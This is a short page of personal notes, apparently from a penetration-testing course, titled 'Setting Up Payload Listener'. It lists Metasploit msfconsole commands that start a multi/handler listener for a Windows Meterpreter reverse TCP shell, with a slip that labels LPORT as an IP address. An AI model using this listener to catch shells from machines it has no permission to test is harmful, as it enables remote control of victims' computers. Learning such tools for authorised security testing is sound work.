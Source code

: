 ```yaml
---
title: 5.2 Setting Up Payload Listener
updated: 2022-08-11T11:22:12.0000000+04:00
created: 2022-08-11T11:17:06.0000000+04:00
---
```


AM
you will use msfconsole as the listener to listen on the incoming connection from the port and ip address that you set

\> msfconsole ..
\> use exploit/multi/handler/
\> set payload windows/meterpreter/reverse_tcp
\> set LHOST {your ip address}
\> set LPORT (your ip address)
\> run
